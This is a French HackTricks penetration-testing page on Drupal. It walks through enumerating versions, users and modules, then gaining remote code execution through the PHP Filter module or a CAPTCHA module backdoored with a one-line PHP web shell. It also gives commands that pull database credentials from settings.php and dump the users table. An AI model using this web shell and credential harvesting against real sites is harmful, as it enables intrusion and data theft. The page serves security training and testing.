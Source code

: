 # Drupal

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez**-moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Découverte

* Vérifiez les **meta**
```bash
curl https://www.drupal.org/ | grep 'content="Drupal'
```
* **Node** : Drupal **indexe son contenu en utilisant des nœuds**. Un nœud peut **contenir n'importe quoi**, comme un billet de blog, un sondage, un article, etc. Les URI des pages sont généralement de la forme `/node/<nodeid>`.
```bash
curl drupal-site.com/node/1
```
## Énumération

Drupal prend en charge **trois types d'utilisateurs** par défaut :

1. **`Administrateur`** : Cet utilisateur a un contrôle total sur le site web Drupal.
2. **`Utilisateur Authentifié`** : Ces utilisateurs peuvent se connecter au site web et effectuer des opérations telles que l'ajout et la modification d'articles en fonction de leurs permissions.
3. **`Anonyme`** : Tous les visiteurs du site web sont désignés comme anonymes. Par défaut, ces utilisateurs ne sont autorisés qu'à lire les articles.

### Version

* Vérifiez `/CHANGELOG.txt`
```bash
curl -s http://drupal-site.local/CHANGELOG.txt | grep -m2 ""

Drupal 7.57, 2018-02-21
```
{% hint style="info" %}
Les installations plus récentes de Drupal bloquent par défaut l'accès aux fichiers `CHANGELOG.txt` et `README.txt`.
{% endhint %}

### Énumération des noms d'utilisateur

#### Inscription

Dans _/user/register_, essayez simplement de créer un nom d'utilisateur et si le nom est déjà pris, cela sera notifié :

![](<../../.gitbook/assets/image (254).png>)

#### Demander un nouveau mot de passe

Si vous demandez un nouveau mot de passe pour un nom d'utilisateur existant :

![](<../../.gitbook/assets/image (255).png>)

Si vous demandez un nouveau mot de passe pour un nom d'utilisateur non-existant :

![](<../../.gitbook/assets/image (256).png>)

### Obtenir le nombre d'utilisateurs

En accédant à _/user/\<number>_, vous pouvez voir le nombre d'utilisateurs existants, dans ce cas c'est 2 car _/users/3_ retourne une erreur de non trouvé :

![](<../../.gitbook/assets/image (257).png>)

![](<../../.gitbook/assets/image (227) (1) (1).png>)

### Pages cachées

**Fuzz `/node/$` où `$` est un nombre** (de 1 à 500 par exemple).\
Vous pourriez trouver des **pages cachées** (test, dev) qui ne sont pas référencées par les moteurs de recherche.

#### Informations sur les modules installés
```bash
#From https://twitter.com/intigriti/status/1439192489093644292/photo/1
#Get info on installed modules
curl https://example.com/config/sync/core.extension.yml
curl https://example.com/core/core.services.yml

# Download content from files exposed in the previous step
curl https://example.com/config/sync/swiftmailer.transport.yml
```
### Automatique
```bash
droopescan scan drupal -u http://drupal-site.local
```
## Exécution de Code à Distance (RCE)

### Avec le Module PHP Filter

{% hint style="warning" %}
Dans les anciennes versions de Drupal **(avant la version 8)**, il était possible de se connecter en tant qu'admin et **d'activer le module `PHP filter`**, qui "Permet l'évaluation de code/snippets PHP intégrés."
{% endhint %}

Vous avez besoin que **le plugin php soit installé** (vérifiez-le en accédant à _/modules/php_ et si cela retourne un **403**, alors, **il existe**, si **non trouvé**, alors **le plugin php n'est pas installé**)

Allez dans _Modules_ -> (**Cocher**) _PHP Filter_ -> _Enregistrer la configuration_

![](<../../.gitbook/assets/image (247) (1).png>)

Ensuite, cliquez sur _Ajouter du contenu_ -> Sélectionnez _Page de base_ ou _Article_ -> Écrivez _du shellcode php dans le corps_ -> Sélectionnez _Code PHP_ dans _Format de texte_ -> Sélectionnez _Aperçu_

![](<../../.gitbook/assets/image (253) (1).png>)

Finalement, accédez simplement au nœud nouvellement créé :
```bash
curl http://drupal-site.local/node/3
```
### Installer le module PHP Filter

À partir de la version **8, le** [**module PHP Filter**](https://www.drupal.org/project/php/releases/8.x-1.1) **n'est pas installé par défaut**. Pour utiliser cette fonctionnalité, nous devons **installer le module nous-mêmes**.

1. Téléchargez la version la plus récente du module sur le site web de Drupal.
2. wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz
3. Une fois téléchargé, allez dans **`Administration`** > **`Rapports`** > **`Mises à jour disponibles`**.
4. Cliquez sur **`Parcourir`**, sélectionnez le fichier depuis le répertoire où nous l'avons téléchargé, puis cliquez sur **`Installer`**.
5. Une fois le module installé, nous pouvons cliquer sur **`Contenu`** et **créer une nouvelle page de base**, de la même manière que dans l'exemple de Drupal 7. Assurez-vous de nouveau de **sélectionner `Code PHP` dans le menu déroulant `Format de texte`**.

### Module avec backdoor

Un module avec backdoor peut être créé en **ajoutant un shell à un module existant**. Les modules peuvent être trouvés sur le site web drupal.org. Choisissons un module tel que [CAPTCHA](https://www.drupal.org/project/captcha). Descendez et copiez le lien pour l'archive tar.gz [archive](https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz).

* Téléchargez l'archive et extrayez son contenu.
```
wget --no-check-certificate  https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
tar xvf captcha-8.x-1.2.tar.gz
```
* Créez un **PHP web shell** avec le contenu :
```php
<?php
system($_GET["cmd"]);
?>
```
* Ensuite, nous devons créer un fichier **`.htaccess`** pour nous donner accès au dossier. Cela est nécessaire car Drupal interdit l'accès direct au dossier **`/modules`**.
```html
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>
```
* La configuration ci-dessus appliquera des règles pour le dossier / lorsqu'une demande de fichier est faite dans /modules. Copiez ces deux fichiers dans le dossier captcha et créez une archive.
```bash
mv shell.php .htaccess captcha
tar cvf captcha.tar.gz captcha/
```
* En supposant que nous ayons un **accès administratif** au site web, cliquez sur **`Gérer`** puis sur **`Étendre`** dans la barre latérale. Ensuite, cliquez sur le bouton **`+ Installer un nouveau module`**, et nous serons redirigés vers la page d'installation, comme `http://drupal-site.local/admin/modules/install`. Parcourez jusqu'à l'archive Captcha avec backdoor et cliquez sur **`Installer`**.
* Une fois l'installation réussie, naviguez vers **`/modules/captcha/shell.php`** pour exécuter des commandes.

## Post Exploitation

### Lire settings.php
```
find / -name settings.php -exec grep "drupal_hash_salt\|'database'\|'username'\|'password'\|'host'\|'port'\|'driver'\|'prefix'" {} \; 2>/dev/null
```
### Extraire les utilisateurs de la base de données
```
mysql -u drupaluser --password='2r9u8hu23t532erew' -e 'use drupal; select * from users'
```
## Références

* [https://academy.hackthebox.com/module/113/section/1209](https://academy.hackthebox.com/module/113/section/1209)

<details>

<summary><strong>Apprenez le hacking AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez**-moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de hacking en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
